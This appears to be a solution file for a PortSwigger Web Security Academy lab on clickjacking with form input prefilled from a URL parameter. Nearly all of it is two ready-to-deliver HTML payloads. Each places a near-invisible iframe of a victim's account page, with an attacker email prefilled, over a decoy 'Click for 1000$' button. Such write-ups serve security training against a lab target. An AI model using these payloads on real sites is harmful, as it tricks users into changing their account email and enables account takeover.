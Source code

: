 # Lab: Clickjacking with form input data prefilled from a URL parameter
# https://portswigger.net/web-security/learning-paths/clickjacking/clickjacking-clickjacking-with-prefilled-form-input/clickjacking/lab-prefilled-form-input#



```bash
# Open my account page. Change url to this and hit enter

https://0a20006f03c77dac826dbc320027003b.web-security-academy.net/my-account?email=a

# We see that a is in the email input box so we can use this.

```

```bash

# Deliver this to victim:
<style>
	iframe{
		position:relative;
		width: 1000px;
		height: 700px;
		opacity: 0.0001;
		z-index: 2;
	
	
	}

	div{
		position:absolute;
		top: 470px;
		left: 45px;
		z-index: 1;
	
	
	}

</style>

<div>Click for 1000$</div>
<iframe src="https://0a20006f03c77dac826dbc320027003b.web-security-academy.net/my-account?email=hackera@gmail.com"></iframe>

# If it doesn't work try this:


<style>
	iframe{
		position:relative;
		width: 700px;
		height: 500px;
		opacity: 0.0001;
		z-index: 2;
	
	
	}

	div{
		position:absolute;
		top: 450px;
		left: 80px;
		z-index: 1;
	
	
	}

</style>

<div>Test me</div>
<iframe src="https://0a20006f03c77dac826dbc320027003b.web-security-academy.net/my-account?email=hackedbybora@gmail.com"></iframe>

# Iframe labs are weird sometimes they don't accept true answers try to submit again later if it doesn't work.
```

